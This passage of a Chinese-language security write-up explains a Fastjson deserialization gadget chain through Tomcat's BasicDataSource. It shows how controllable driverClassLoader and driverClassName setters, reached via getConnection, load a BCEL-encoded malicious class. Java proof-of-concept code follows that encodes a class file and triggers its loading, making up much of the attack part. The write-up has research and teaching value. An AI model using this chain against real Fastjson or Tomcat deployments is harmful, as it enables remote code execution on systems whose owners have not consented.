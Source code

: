 然后下面我们就需要考虑如何调用loadClass方法，在tomcat包下面找到了一个BasicDataSource的类，里面调用了forName方法，这里forName方法的底层逻辑其实调用了loadClass方法，所以如果我们让dirverClassLoader等于ClassLoader，让dirverClassName等于我们自己的恶意类，就可以执行。

[![](assets/1701612260-dedd0e9cbb111ebd084201813745753b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230235-f50c7d76-2969-1.png)

然后恰好这两个变量还能够通过setter方法进行可控：

[![](assets/1701612260-c5aeb816210d877246f02163c169c2eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230241-f8f13cba-2969-1.png)

然后我们就来看最后能不能调用到某个setter方法或者getter中，看哪里能够调用forName方法对应的createConnectionFactory方法：

[![](assets/1701612260-0d65fb122761029e2230e726446d7dde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230247-fc3b3fd8-2969-1.png)

再寻找createDataSource方法：

[![](assets/1701612260-424e7d6fa13c1618715926a745eb763f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230300-0412714a-296a-1.png)

最后我们就找到了getConnetion这个方法，所以单纯的调用流程就是下面这个样子，我们再把他转换为JSON的形式

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName("$$BCEL$$"+code);
        basicDataSource.getConnection();
//        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);

        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }

        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
```